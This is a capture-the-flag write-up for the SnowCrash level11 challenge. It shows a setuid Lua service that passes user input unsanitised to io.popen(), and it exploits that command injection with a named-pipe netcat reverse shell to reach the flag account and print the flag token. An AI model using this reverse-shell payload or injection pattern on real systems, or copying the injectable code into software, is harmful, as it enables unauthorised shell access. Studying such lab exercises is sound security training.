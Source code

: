 # level11

## Recognition

There is a lua script at the root of the home of level11, which is owned by flag11.

```bash
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

When looking at the content of the script, we can see that it passes the input of the user to a "hash()" function which will use `io.popen()` to execute a command in sh.
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

</br>
</br>

## Exploition

Knowing that our input will be executed by the script, we can exploit that to get the token.

However, `io.popen()` will save all standart outputs to a string which it will return, so to get our output we can either choose to redirect the output to a file, or use it to execute a reverse shell.

We will run a netcat server in parrallel on the host machine
```bash
level11@SnowCrash:~$ nc -lk 127.0.0.1 9000
```

And then connect to the level11 program and give the reverse shell as password to run a program instance with flag11 suid connected to the netcat server.
```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: $( rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 9000 >/tmp/f )
```

Then, the shell should appear on the netcat server listening for the connection, we can now run `getflag` since we are logged as flag11.
```bash
level11@SnowCrash:~$ nc -lk 127.0.0.1 9000
$
$ id
uid=3011(flag11) gid=3011(flag11) groups=3011(flag11),1001(flag)
$ getflag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```